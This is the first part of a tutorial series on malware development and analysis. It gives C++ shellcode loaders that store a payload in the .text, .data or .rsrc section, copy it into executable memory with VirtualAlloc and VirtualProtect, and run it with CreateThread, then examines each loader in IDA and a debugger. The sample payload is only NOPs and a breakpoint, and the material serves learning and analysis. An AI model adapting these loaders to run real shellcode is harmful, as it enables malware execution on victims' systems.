# Malware Development, Analysis and DFIR Series
## PART I 

#### Introduction

**This will be a series focussed on developing Malwares for ethical purposes only, The author is not liable for any damages caused.**

before we begin, let's know about a few things

#### what is a malware?

Malwares are malicious softwares, that are a nefarious class of software meticulously engineered to compromise the integrity, confidentiality, or availability of computer systems. These pernicious programs are often cloaked in deceit, masquerading as  legitimate software to trick unsuspecting users into granting them access. A malware can perform harmful actions such as stealing sensitive data, causing system disruptions, or even taking control of the system.

Malwares can also be used by red/purple teamers and pentesters for ethical and authorized purposes like Assessment of Defenses, Simulation of Threat Actors, Testing Incident Response Plans, Validation of Security 

#### Prerequisites

- Python
- C Programming
- Windows API (atleast basic understanding)
- Winternals (atleast basic understanding)

#### Requirements

- [Visualstudio](https://visualstudio.microsoft.com)
- [Resource Hacker](https://www.angusj.com/resourcehacker/)
- [Process Hacker](https://processhacker.sourceforge.io/downloads.php)
- [x64dbg](https://x64dbg.com)
- [PEStudio](https://www.winitor.com/download)
- [ida](https://hex-rays.com/ida-free/)
- [msfvenom](https://github.com/rapid7/metasploit-framework/tree/master)

#### Some C basics

##### Structs:

Programmers can organize similar data items of multiple data kinds into a single unit by using user-defined data types called structures, also known as structs. To store information about a specific object, utilize structures. Easily accessible and manipulable hierarchies facilitate the organization of vast quantities of relevant data.

To declare a struct:

```c
typedef struct _STRUCT_NAME {

  //elements

} STRUCT_NAME, *NAME_PSTRUCT;
```
typedef keyword is to give an alias to the struct

Example:

```c
typedef struct _PEB_LDR_DATA {
	ULONG                   Length;
	BOOLEAN                 Initialized;
	PVOID                   SsHandle;
	LIST_ENTRY              InLoadOrderModuleList;
	LIST_ENTRY              InMemoryOrderModuleList;
	LIST_ENTRY              InInitializationOrderModuleList;
} PEB_LDR_DATA, *PPEB_LDR_DATA;
```

now let's start with basic things first.

#### Different ways to store Payload

##### .text section

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <string.h>

int main(void) {
    
	void * plmem;
	BOOL plbufexec;
	HANDLE run_thread;
    DWORD oldprotect = 0;
    unsigned int pllen = 6;
	unsigned char payload[] = {
		0x90,		//NOP
		0x90,		//NOP
		0x90,		//NOP
		0x90,		//NOP
		0xcc,		//INT3
		0xc3		//RET
	};
	unsigned int pllen = 6;
	plmem = VirtualAlloc(0, pllen, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%s : 0x%p\n", "payload addr", (void *)payload);
	printf("%s : 0x%p\n", "plmem addr", (void *)plmem);
	RtlMoveMemory(plmem, payload, pllen);
	plbufexec = VirtualProtect(plmem, pllen, PAGE_EXECUTE_READ, &oldprotect);
    printf("\nWanna Exec?\n");
	getchar();

	if ( plbufexec != 0 ) {
			run_thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) plmem, 0, 0, 0);
            printf("Payload Execution Started!\n");
			WaitForSingleObject(run_thread, -1);
	}
	return 0;
}
```
Let's debug it





now let's static analyze it with ida.



we can see here Src and v5 has our payload.

dwSize stores the size of the payload.

next up, we have VirtualAlloc

[VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) - Reserves, commits, or changes the state of a region of pages in the virtual address space of the calling process. Memory allocated by this function is automatically initialized to zero.

It's used to allocate new memory/buffer in virtual address space to use.

```cpp
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

now we will have a pointer to the allocated memory in lpAddress

If the function succeeds, the return value is the base address of the allocated region of pages. If the function fails, the return value is NULL.

then we are writing the payload into the memory using memmove

next up we have VirtualProtect

[VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) - Changes the protection on a region of committed pages in the virtual address space of the calling process.

It is to set permissions of a particular memory/buffer allocated.

```cpp
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```

here we have set it as 0x20 which means PAGE_EXECUTE_READ - "Enables execute or read-only access to the committed region of pages. An attempt to write to the committed region results in an access violation."

if it is made executable, hHandle = (HANDLE)_IAT_start__(0i64, 0i64, lpAddress, 0i64, 0, 0i64); gets executed , which while debugging we can figure out that it creates a thread



**we will look in into debugging later in the series**

which returns a handle for the thread created, then we have

[WaitForSingleObject](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject) - Waits until the specified object is in the signaled state or the time-out interval elapses.

```cpp
DWORD WaitForSingleObject(
  [in] HANDLE hHandle,
  [in] DWORD  dwMilliseconds
);
```

here it waits infinitly due to -1.

next let's look into other cases.

##### .data section

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <string.h>

unsigned char payload[] = {
	0x90,		//NOP
	0x90,		//NOP
	0x90,		//NOP
	0x90,		//NOP
	0xcc,		//INT3
	0xc3		//RET
};
unsigned int pllen = 6;

int main(void) {
    
	void * plmem;
	BOOL plbufexec;
	HANDLE run_thread;
    DWORD oldprotect = 0;
    unsigned int pllen = 6;

	plmem = VirtualAlloc(0, pllen, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%s : 0x%p\n", "payload addr", (void *)payload);
	printf("%s : 0x%p\n", "plmem addr", (void *)plmem);
	RtlMoveMemory(plmem, payload, pllen);
	plbufexec = VirtualProtect(plmem, pllen, PAGE_EXECUTE_READ, &oldprotect);
    printf("\nWanna Exec?\n");
	getchar();

	if ( plbufexec != 0 ) {
			run_thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) plmem, 0, 0, 0);
            printf("Payload Execution Started!\n");
			WaitForSingleObject(run_thread, -1);
	}
	return 0;
}

```

Let's debug it







now let's static analyze it with ida.



the only difference here is that the payload is stored in .data section globally so we can get it from there.



so the memmove uses this rather than initializing it in the main function.

#### .rsrc

```cpp

#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <string.h>
#include "resources.h"

int main(void) {
    
    void * plmem;
    BOOL plbufexec;
    HANDLE run_thread;
    DWORD oldprotect = 0;
    HGLOBAL resHandle = NULL;
    HRSRC res;

    unsigned char * payload;
    unsigned int pllen;

    res = FindResource(NULL, MAKEINTRESOURCE(SHELLCODE), RT_RCDATA);
    resHandle = LoadResource(NULL, res);
    payload = (unsigned char *) LockResource(resHandle);
    pllen = SizeofResource(NULL, res);

    plmem = VirtualAlloc(0, pllen, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    printf("%s : 0x%p\n", "payload addr", (void *)payload);
    printf("%s : 0x%p\n", "plmem addr", (void *)plmem);
    RtlMoveMemory(plmem, payload, pllen);
    plbufexec = VirtualProtect(plmem, pllen, PAGE_EXECUTE_READ, &oldprotect);
    printf("\nWanna Exec?\n");
    getchar();

    if ( plbufexec != 0 ) {
            run_thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) plmem, 0, 0, 0);
            printf("Payload Execution Started!\n");
            WaitForSingleObject(run_thread, -1);
    }
    return 0;
}
```
Looking into Resource Hacker



we can easily view as well as  get it from there!

Let's debug it





now let's static analyze it with ida.



here there are only few differnces:

1) [FindResourceA](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-findresourcea) - "Determines the location of a resource with the specified type and name in the specified module and returns handle to the resource's information block"
```cpp
HRSRC FindResourceA(
  [in, optional] HMODULE hModule,
  [in]           LPCSTR  lpName,
  [in]           LPCSTR  lpType
);
```
2) [LoadResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource) - "Retrieves a handle that can be used to obtain a pointer to the first byte of the specified resource in memory"
```cpp
HGLOBAL LoadResource(
  [in, optional] HMODULE hModule,
  [in]           HRSRC   hResInfo
);
```
3) [LockResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) - "Retrieves a pointer to the specified resource in memory"
```cpp
LPVOID LockResource(
  [in] HGLOBAL hResData
);
```

#### Wrapping up

We looked into different places to load a shellcode or anyother forms of executable segmants in a PE, we also did basic analysis in ida, in upcomming posts we will look into intel x86 assembly and more.

#### Contact me?

For any doubts and queries, you can contact me through

[X(twitter) - Azr43lKn1ght](https://twitter.com/Azr43lKn1ght)
[Linkedin - Nithin Chenthur Prabhu](https://www.linkedin.com/in/azr43lkn1ght)
[Github - Azr43lKn1ght](https://github.com/Azr43lKn1ght)
[gmail - nithinchenthur@gmail.com](mailto:nithinchenthur@gmail.com)


